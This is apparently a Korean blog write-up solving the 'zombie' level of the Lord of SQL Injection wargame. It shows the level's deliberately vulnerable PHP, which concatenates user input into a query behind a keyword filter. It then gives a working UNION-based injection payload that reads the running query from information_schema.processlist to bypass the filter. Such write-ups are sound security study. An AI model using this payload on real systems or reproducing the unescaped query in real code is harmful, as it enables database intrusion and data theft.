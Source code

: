 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


핳핳 드디어 거의 끝이 보인다!  

이번 문제는 `zombie`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------
query : select pw from prob_zombie where pw=''
-------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

처음엔 이 문제 보고 `이 전 문제 푼거랑 똑같이 풀면 되겠다!` 생각했다.  

근데 `ace`에 필터링이 있어서 `replace`를 사용을 못하더라.  

그래서 어떻게 풀지... 고민하는데 내 옆에 있던 `웹짱해커`님이 `ㅎㅎ 겁나 쉽게 풀 수 있는데~~` 이러고 약올렸다. ㅂㄷㅂㄷ  

화나는 건 이렇게 약올리는데 난 방법을 모르겠는거다!  

어쨌든 어찌어찌 풀긴 했는데, `information_schema`의 테이블 이름을 다 외우고 있어야되나 싶은 생각이 들었다.  

`information_schema` 데이터베이스를 보면 `processlist`라는 테이블이 있다.  

이 테이블에는 현재 실행중인 쿼리문이 저장되어 있다.  

실제 내 서버에서 확인해 본 결과이다.  

```
mysql> select * from processlist;
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| ID | USER | HOST      | DB                 | COMMAND | TIME | STATE     | INFO                      |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| 24 | root | localhost | information_schema | Query   |    0 | executing | select * from processlist |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
1 row in set (0.00 sec)
```

`INFO` 컬럼에 내가 방금 입력 한 `select * from processlist`가 있는 것을 알 수 있다.  

그렇다면 내가 문제를 풀기위해 입력하는 쿼리도 이 `processlist`에 들어가 있을테니, 그 `processlist`에서 데이터를 추출 해 내가 입력 한 부분만 잘라내면 그 결과가 똑같이 나오게 될 것이다.  

```
?pw=' union select substr(info, 38, 72) from information_schema.processlist#
```

위와 같이 넘겨준다면, `processlist`의 `info` 컬럼에 `select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#` 가 저장되어 있을 것이다.  

이 때, `substr(info, 38, 72)`를 `select`하도록 해, 내가 입력 한 `' union select substr(info, 38, 72) from information_schema.processlist#`를 뽑아 오도록 하면 된다.  

힣 `zombie`도 처치했다!  

```php
----------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#'
----------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : ' union select substr(info, 38, 72) from information_schema.processlist#
ZOMBIE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

`ZOMBIE Clear!!`
